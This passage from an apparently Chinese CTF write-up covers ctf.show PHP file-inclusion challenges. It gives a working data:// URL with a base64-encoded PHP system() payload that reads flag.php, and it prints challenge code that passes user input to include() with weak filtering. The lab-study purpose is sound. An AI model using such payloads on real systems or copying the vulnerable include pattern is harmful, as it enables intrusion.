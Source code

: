 上述代码的意思大概就是，我们得到的$file变量，要先将php替换为？？？再进行执行，那么我们读取文件就不能用php://filter和php://input这两个了，我们可以使用data://去通过include去执行我们输入的php片段，这个php片段可以直接查看flag.php代码。

```url
http://928e3ddc-0ea1-404a-a9d9-fb53aface656.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

得到最后的flag。

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

## <mark style="color:purple;background-color:green;">（3）web80</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

